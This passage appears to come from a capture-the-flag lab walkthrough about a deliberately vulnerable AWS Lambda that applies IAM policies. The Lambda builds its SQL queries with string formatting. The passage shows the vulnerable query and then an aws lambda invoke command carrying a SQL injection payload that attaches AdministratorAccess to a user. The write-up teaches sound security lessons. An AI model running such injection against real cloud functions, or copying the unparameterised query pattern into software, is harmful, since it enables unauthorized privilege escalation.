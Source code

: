 ```python
        "policy_names": [
            "AmazonSNSReadOnlyAccess",
            "AWSLambda_ReadOnlyAccess"
        ],
        "user_name": "cg-bilbo-user"
    }
    print(handler(payload, 'uselessinfo'))
```

This Lambda handler takes two arguments upon invocation, `user_name` (string) 
and `policy_names` (string array). It then loops through the provided values in
the `policy_names` argument, using each as part of a SQL statement executed 
against `my_database.db`. If the policy name is present in the `policy_name` 
column of the `policies` table in the database and the value of `public` is 
`True` that IAM policy is applied to the provided username. The call to 
`insert_all` that's commented out is left as a breadcrumb to hint at the 
database schema. Let's verify this:  

```bash
> sqlite3 my_database.db 'select * from policies;'
AmazonSNSReadOnlyAccess|True
AmazonRDSReadOnlyAccess|True
AWSLambda_ReadOnlyAccess|True
AmazonS3ReadOnlyAccess|True
AmazonGlacierReadOnlyAccess|True
AmazonRoute53DomainsReadOnlyAccess|True
AdministratorAccess|False
```

Using string formatting to dynamically build a SQL statement without the use of 
prepared statements opens up the application logic to risk of SQL injection 
attacks. Directly using user input that is controllable by an attacker without
any form of sanitization drastically increases that risk. It's time to hunt for 
and exploit a potential SQLi bug.

## Privilege Escalation

In this case, we could prematurely terminate the following SQL statement because
the value of `policy` is attacker-controlled, removing the requirement of 
`public = 'True'`:  

```python
statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"`
```

```bash
aws lambda invoke --function-name vulnerable_lambda_cgidgfmjd1k7yo-policy_applier_lambda1 --payload '{"policy_names":["AdministratorAccess'\''; --"],"user_name":"cg-bilbo-vulnerable_lambda_cgidgfmjd1k7yo"}' --cli-binary-format raw-in-base64-out response.json --region us-east-1
```

```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```
